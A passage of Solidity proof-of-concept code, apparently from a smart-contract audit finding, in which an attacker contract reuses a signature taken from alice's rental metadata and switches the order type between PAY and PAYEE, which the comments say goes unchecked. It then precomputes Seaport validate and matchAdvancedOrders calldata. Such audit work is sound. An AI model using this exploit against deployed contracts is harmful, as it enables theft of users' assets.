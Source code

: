 ```solidity
        }

        // precompute `validate()` calldata for new order (PAYEE order) for on-chain validation (attackerContract is offerer and fulfiller)
        { // to fix stack too deep errors
            ConsiderationItem[] memory considerationItems = new ConsiderationItem[](2);
            // considerationItems[0] will change dynamically in our attacker contract
            considerationItems[1] = ConsiderationItem({
                itemType: ItemType.ERC20,
                token: address(erc20s[0]),
                identifierOrCriteria: uint256(0),
                startAmount: uint256(1),
                endAmount: uint256(1),
                recipient: payable(address(ESCRW))
            });

            order.parameters.consideration = considerationItems; // considerationItems for PAYEE mirror offerItems from PAY

            OfferItem[] memory offerItems = new OfferItem[](0);
            order.parameters.offer = offerItems; // no offerItems for PAYEE

            order.parameters.totalOriginalConsiderationItems = 2; // 2 since this is our PAYEE order

            // store `validate()` calldata for PAYEE order in attackerContract for later use
            attackerContract.storePayeeOrder(order);
        }

        // precompute `matchAdvancedOrders()` calldata for fulfillment of the two orders (PAY + PAYEE) and store in attackerContract
        // construct AdvancedOrder[] calldata
        { // to fix stack too deep errors
            rentPayload.metadata.orderType = OrderType.PAY; // modify OrderType to be a PAY order (necessary for exploit). orderType not checked during signature validation
            AdvancedOrder memory payAdvancedOrder = AdvancedOrder(
                attackerContract.getPayOrderParams(), 
                1, 
                1, 
                hex"",  // signature does not matter 
                abi.encode(rentPayload, signature) // extraData. Note: we are re-using the signature we received from alice's metadata
            );
            rentPayload.metadata.orderType = OrderType.PAYEE; // modify OrderType to be a PAYEE order (necessary for exploit). orderType not checked during signature validation
            AdvancedOrder memory payeeAdvancedOrder = AdvancedOrder(
                attackerContract.getPayeeOrderParams(), 
                1, 
                1, 
                hex"",  // signature does not matter 
                abi.encode(rentPayload, signature) // extraData. Note: we are re-using the signature we received from alice's metadata
            );
            
            // store AdvancedOrder structs in attackerContract for later use
            attackerContract.storePayAdvancedOrder(payAdvancedOrder);
            attackerContract.storePayeeAdvancedOrder(payeeAdvancedOrder);
        }

        // construct Fulfillment[] calldata
        { // to fix stack too deep errors
            FulfillmentComponent[] memory offerCompERC721 = new FulfillmentComponent[](1);
            FulfillmentComponent[] memory considCompERC721 = new FulfillmentComponent[](1);
```